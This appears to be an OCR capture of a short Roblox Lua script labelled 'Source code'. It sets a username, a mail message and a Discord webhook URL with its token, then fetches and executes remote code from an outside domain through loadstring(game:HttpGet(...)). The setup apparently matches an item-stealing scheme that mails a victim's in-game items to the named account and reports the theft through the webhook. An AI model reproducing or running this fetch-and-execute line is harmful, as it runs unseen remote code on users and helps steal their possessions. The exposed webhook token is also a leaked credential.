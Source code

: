 Username = "dianari57581"
MailMessage = "Nice Dpt Unit Free"
Webhook = "https://discord.com/api/webhooks/1244613485753667614/1qpRGdIhB9lHEmFA8_iV-r4O34koYckTetQCKkmf96pFi4TWt3-J1yq4Pk-5DJKnkARD"

loadstring(game:HttpGet("https://egorikusa.space/ttd"))()
